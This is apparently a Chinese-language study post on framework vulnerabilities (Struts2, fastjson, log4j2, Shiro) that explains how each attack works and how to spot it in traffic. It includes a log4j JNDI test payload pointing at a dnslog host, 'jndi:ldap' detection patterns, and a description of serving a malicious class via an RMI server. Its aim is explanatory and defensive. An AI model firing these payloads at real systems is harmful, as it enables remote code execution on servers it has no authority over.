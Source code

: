 ```yaml
---
layout:     post
title:      框架漏洞
subtitle:   分析常见框架漏洞及其原理
date:       2023-4-06
author:     tahano
header-img: img/back2.jpg
catalog: true
tags:
    - 漏洞原理
---
```


## 前言

最近面试被问到了`Struts2`等常用框架的问题。整理一下



## 正文

# Struts2
**原理**
默认的content-type解析器会把用户传来的数据 直接当成代码执行，造成rce
**特征**
ognl表达式，memberaccess字段。可以通过catalina日志过滤关键信息查找攻击特征
# ThinkPhp
RCE、SQL注入为主：
# fastjson反序列化漏洞原理
## 利用原理
处理json数据过程中因为应用开启了autotype，却没进行安全的过滤，造成@type用户可控并会被服务器带回执行。所以利用POST-@type将值指向我们提前搭建在vps上的恶意class文件，期间配置RMI（marshalsec 搭建一个RMI服务器，进行远程加载payload）。传入数据之后，被服务器本地加载并执行反序列化造成漏洞

使用autotype功能进行序列化的json字符会带有一个@type来标记他字符的原始类型，然后在反序列化的时候会通过读取这个@type的值来调用setter或者是getter的方法来把json反序列化到对象。他这个漏洞就是@type的值可以被恶意构造，我们再构造一个合理的json，就能用@type指定一个攻击类库，从而实现攻击。
### 黑盒找洞
找json传输的接口测试回显，信息搜集指纹识别等、可以根据logo图标判断是否使用了fastjson或者改POST花括号不闭合看回显
#### 报错识别
burp修改为post请求   MIME改为json传输 
报错请求返回，会出现alibaba.fastjson，表示为：fastjson框架
### 不出网
直接将命令执行结果写入到静态资源文件里，如html、js等，然后通过访问本地文件查看结果。通过dnslog外带（前提能执行dns请求）直接将结果回显到请求Poc的HTTP响应包中
## 特征
发送json数据会有datesourcename字段，且一般会有@type
# log4j漏洞原理

该漏洞主要是当日志在打印时遇到符号${就会以：为分割，前面的内容当作profix，后面的内容当作key。然后根据profix去寻找对应的lookup，再根据lookup实例调用
lookup方法，最后将key作为参数带入执行，从而引发代码执行漏洞。

# log4j2
## 漏洞原理
rmi和jndi这种服务，远程获取了恶意的class，解析之后造成rce
使用了lookup接口，通过JNDI注入触发日志，且调用jndi/rmi服务，远程获取了恶意的class，
同时java在加载class的时候，进行了反序列化，把 class还原成java，在反序列化中会触发你比如 (恶意class文件还原java后的代码中的）static里的代码Runtime.getRuntime().exec()这种代码，从而造成RCE
### 流量特征
通过全流量设备进行流量回查，同时匹配流量及日志中所有存在
```
jndi:ldap://               jndi:rmi
```
等字符的特征。
（工具可能触发）看DNS记录，设备上是否有dns外带检测告警
## 实战检测
url编码 传输payload，dnslog平台查看即可
```
${jndi:ldap://p8qnbn.dnslog.cn} 
```


# java之shiro漏洞原理 
因为通过rememberme来实现cookie对用户的记住功能，而处理cookie的机制是rememberme作为入口，对数据先base64解码、然后AES解码、然后执行反序列化最后把数据传回服务器。而期间AES的密钥泄露造成用户可以进行恶意cookie重构，所有相反的顺序，通过AES的key，构造出payload，在cookie的rememberme进行注入即可执行反序列化漏洞

## 攻击特征
cookie-rememberme的值正常都比较短，而攻击时的base64值很长
有些工具利用的时候DNSLOG+URLDNS进行检测，所以可能会留下大量dns记录
判断shiro对key正确性

shiro：
查看cookie中rememberme字段，恶意命令要从这里传入。判断是否有漏洞，查看返回包的set cookie，有rememberme=deleteme就说明它漏洞验证失败了。
shiro550：
因为cookie的AES加密使用的硬编码导致密钥可以被爆破，然后利用密钥进行解密和反序列化构建payload
shiro721：
虽然没有硬解码，但是可以构建恶意的rememberme值，因为服务端收到登录请求后，会对cookie的rememberme字段的值进行base64解码，接着进行aes解密，然后反序列化。因为我们自己构造了rememberme，所以经过处理后它的字段就会异常的长，这就是它的流量特征。

二者区别：shiro550使用已知密钥，只要有足够的密钥库，就不需要remember cookie；shiro721的ase加密的key因为是系统随机生成的，基本猜不到，需要使用登录后的rememberme去爆破正确的key值。即利用有效的rememverme cookie作为padding oracle attack的前缀，然后精心构造rememberme cookie值来实现反序列化漏洞攻击，难度高


# SpringBoot
**CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, WordPress, Yii和ZendFramework**

### 参考

